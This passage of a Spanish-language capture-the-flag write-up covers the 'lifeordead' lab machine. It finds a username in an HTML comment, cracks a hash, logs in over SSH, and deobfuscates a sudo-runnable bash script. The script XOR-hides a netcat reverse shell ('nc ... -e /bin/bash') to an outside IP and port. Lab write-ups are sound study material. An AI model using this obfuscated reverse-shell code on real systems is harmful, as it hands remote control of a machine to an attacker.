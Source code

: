 lo ejecutamos y vemos lo siguiente:

![Código](images/lifeordead/codigo.png)

ya tenemos el código, pero antes de continuar revisamos el código fuente de la página y vemos un comentario que puede ser un usuario:

```html
<!--dimer-->
```

Luego de poner el código, obtenemos un hash:

```css
bbb2c5e63d2ef893106fdd0d797aa97a
```

# Intrusión

Pasamos el hash por [CrackStation](https://crackstation.net/) y nos dice que la contraseña es "supersecretpassword" pero si intentamos conectarnos por ssh con el usuario "dimer" no nos funciona, ya que parece que tenemos que poner el hash directamente y podemos entrar xD.

# Escalada de privilegios

### Dimer

Si ejecutamos un `sudo -l` veremos que podemos ejecutar un script en bash como el usuario "bilter", pero este parece estar "ofuscado", de todas maneras al ser bash, simplemente creamos el mismo script pero lo modificamos un poco para que nos diga que comando se ejecuta al final:

```bash
#!/bin/bash

set +m

v1=$((0xCAFEBABE ^ 0xAC1100BA))
v2=$((0xDEADBEEF ^ 0x17B4))

a=$((v1 ^ 0xCAFEBABE))
b=$((v2 ^ 0xDEADBEEF))

c=$(printf "%d.%d.%d.%d" $(( (a >> 24) & 0xFF )) $(( (a >> 16) & 0xFF )) $(( (a >> 8) & 0xFF )) $(( a & 0xFF )))

d=$((b))

e="nc"
f="-e"
g=$c
h=$d


echo "$e $g $h $f /bin/bash &>/dev/null &"
```
